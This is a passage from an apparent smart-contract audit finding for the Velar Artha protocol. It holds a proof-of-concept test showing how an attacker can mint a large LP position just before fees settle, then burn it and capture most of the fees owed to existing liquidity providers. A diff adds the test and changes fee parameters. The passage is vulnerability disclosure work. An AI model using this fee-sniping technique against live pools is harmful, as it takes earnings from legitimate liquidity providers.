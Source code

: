 The attacker now mints new LP tokens with a relatively large position vs. the existing LPs. In this case the new LP is ~100x the old LP:
```vyper
    mint(VEL, STX, LP, d(10_000_000), d(50_000_000), price=d(5), sender=lp_provider2)
```

Close tx settles and fees get paid to the pool:
```vyper
    tx = close(VEL, STX, 1, price=d(5), sender=long)
```

The attacker now burns all his LP tokens:
```vyper
    lp_amount_lp1 = LP.balanceOf(lp_provider)
    burn(VEL, STX, LP, lp_amount_lp2, price=d(5), sender=lp_provider2)
```

The original LP only earned 1 of each token:
```vyper
    lp1_inital_value = d(10_000) * 5 + d(50_000)
    lp1_value = lp1_base * 5 + lp1_quote # (as quote tokens)
    lp1_profit = lp1_value - lp1_inital_value # (as quote tokens)
    assert lp1_profit < 10 # lp1_profit is 6: 1 of base and quote
```

The attacker earned most of the fees, ~120 quote tokens:
```vyper
    lp2_inital_value = d(10_000_000) * 5 + d(50_000_000)
    lp2_value = lp2_base * 5 + lp2_quote # (as quote tokens)
    lp2_profit = lp2_value - lp2_inital_value # (as quote tokens)
    assert lp2_profit > 100 # lp2_profit ~ 120 (as quote tokens)
```

## Diff

Update the [`conftest.py`](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/tests/conftest.py) to be the same as the currently planed parameters (based on sponsor msg in discord):
```diff
--- a/conftest.py.orig
+++ b/conftest.py
@@ -58,8 +58,8 @@ def LP2(project, core, owner):
 # ----------- Params -----------------

 PARAMS = {
-  'MIN_FEE'               : 1,
-  'MAX_FEE'               : 1,
+  'MIN_FEE'               : 10,
+  'MAX_FEE'               : 100,

   # Fraction of collateral (e.g. 1000).
   'PROTOCOL_FEE'          : 1000,
```

```diff
--- a/test_positions.py.orig
+++ b/test_positions.py
@@ -137,3 +137,52 @@ def test_value(setup, positions, open, VEL, STX, owner, long):
         'borrowing_paid_want'  : 0,
         'remaining'            : 1998000
     }
+
+def test_burn_fees(chain, setup, open, close, VEL, STX, LP, long, mint_token, core, mint, burn, lp_provider, lp_provider2):
+    setup()
+
+    # user opens positions and closes it after 1 weeks
+    tx = open(VEL, STX, True, d(999), 10, price=d(5), sender=long)
```